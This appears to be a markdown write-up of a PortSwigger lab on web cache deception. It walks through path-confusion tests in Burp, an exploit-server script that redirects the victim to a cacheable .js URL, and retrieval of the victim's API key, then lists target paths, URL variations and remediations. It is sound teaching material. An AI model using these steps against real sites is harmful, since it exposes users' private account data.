




# 🧠 📘LAB-1 WEB CACHE DECEPTION 

## 🟢 1️⃣ OVERVIEW

Web Cache Deception is a vulnerability where:

A cache stores private user data because it mistakes a dynamic response for a static file.

👉 Attacker later reuses the same URL to retrieve cached private data.

---

## 🟢 2️⃣ WHAT IS HAPPENING (CORE IDEA)

There are two systems behaving differently:

| Component | Behavior |
|---|---|
| Origin server | returns correct user data (dynamic) |
| Cache (CDN/proxy) | treats URL as static file |

👉 This mismatch creates the bug.

---

## 🟢 3️⃣ KEY CONCEPTS USED IN LAB

### 🔹 Sensitive endpoint

```text
/my-account
```

Contains:

```text
API key (private data)
```

### 📸 Screenshot — API Key in `/my-account`



---

### 🔹 Path confusion test

Server ignores extra path:

```text
/my-account/abc
```

Still returns same data → server is flexible.

### 📸 Screenshot — Path Manipulation Still Returns Response



---

### 🔹 Cache trigger extension

Cache treats file extensions as static:

```text
/my-account/abc.js
```

### 📸 Screenshot — `.js` Extension Changes Cache Behavior



---

## 🟢 4️⃣ HOW CACHE DECIDES STORAGE

Cache uses:

```text
Cache Key = full URL
```

So:

```text
/my-account/abc.js ≠ /my-account
```

👉 Treated as different resource → cached separately.

---

## 🟢 5️⃣ LAB WALKTHROUGH (STEP-BY-STEP)

### 🟢 STEP 1 — Login

```text
wiener : peter
```

Go to:

```text
/my-account
```

👉 See your API key

---

### 🟢 STEP 2 — Send to Burp Repeater

```http
GET /my-account
```

Send to Repeater

---

### 🟢 STEP 3 — Test path handling

Change:

```text
/my-account/abc
```

Send request

👉 API key still appears

✔ Server ignores extra path

---

### 🟢 STEP 4 — Test cache rule

Change:

```text
/my-account/abc.js
```

Send request

Check headers:

```http
X-Cache: miss
Cache-Control: max-age=30
```

---

### 🟢 STEP 5 — Confirm caching

Resend same request:

```text
/my-account/abc.js
```

Now:

```http
X-Cache: hit
```

✔ Response is cached

### 📸 Screenshot — Cached Response (`X-Cache: hit`)



---

### 🟢 STEP 6 — Create exploit

Exploit server:

```html
<script>
document.location="https://YOUR-LAB-ID.web-security-academy.net/my-account/wcd.js"
</script>
```

---

### 🟢 STEP 7 — Deliver exploit

Click:

```text
Deliver exploit to victim
```

👉 Victim (carlos) loads URL

---

### 🟢 STEP 8 — Retrieve victim data

Open:

```text
/my-account/wcd.js
```

👉 You get:

```text
Carlos API key
```

---

### 🟢 STEP 9 — Submit solution

Copy API key → Submit

---

## 🟢 6️⃣ WHY LAB WORKS (IMPORTANT INSIGHT)

Server returns dynamic private data  
BUT cache stores it as static (`.js` rule)

👉 This mismatch is the vulnerability.

---

## 🟢 7️⃣ CACHE BEHAVIOR (VERY IMPORTANT)

| Header | Meaning |
|---|---|
| `X-Cache: miss` | fetched from server |
| `X-Cache: hit` | served from cache |

---

## 🟢 8️⃣ ROOT CAUSE

Cache trusts file extension rules  
Server ignores fake path segments

---

## 🟢 9️⃣ ATTACK FLOW

```text
1. Find sensitive endpoint (/my-account)
2. Confirm path is ignored by server
3. Add static extension (.js)
4. Victim visits URL
5. Cache stores response
6. Attacker reuses URL
7. Steals victim data
```

---

## 🟢 🔟 REAL-WORLD SCENARIOS

- API key leaks
- Bank statements exposure
- SaaS dashboard leaks
- User profile leaks
- Internal admin panels

---

## 🟢 1️⃣1️⃣ HIGH-VALUE TARGETS

```text
/my-account
/profile
/dashboard
/api/user
/settings
```

---

## 🟢 1️⃣2️⃣ VARIATIONS

```text
/profile/test.js
/api/user/abc.css
/account/info.json.js
/profile/../profile.js
```

---

## 🟢 1️⃣3️⃣ REMEDIATION

### ✔ Disable caching

```http
Cache-Control: no-store
```

---

### ✔ Fix routing

Avoid:

```text
/profile*
```

Use strict routes:

```text
/profile
```

---

### ✔ Restrict CDN rules

Instead of:

```text
*.js
```

Use:

```text
/static/*.js
```

---

### ✔ Validate URLs

Reject:

```text
/my-account/random.js
```

---

## 🟢 1️⃣4️⃣ FINAL MENTAL MODEL

```text
Server = truth (data)
Cache = performance layer (blind rules)

Bug = mismatch between both interpretations
```

---

## 🔥 FINAL SUMMARY

Web Cache Deception = trick cache into storing private responses by disguising them as static file requests.

---

If you want next, I can give you:

👉 1-page ultra revision sheet (for exams / interviews)  
👉 or real bug bounty detection workflow (how to find this in minutes in real sites)
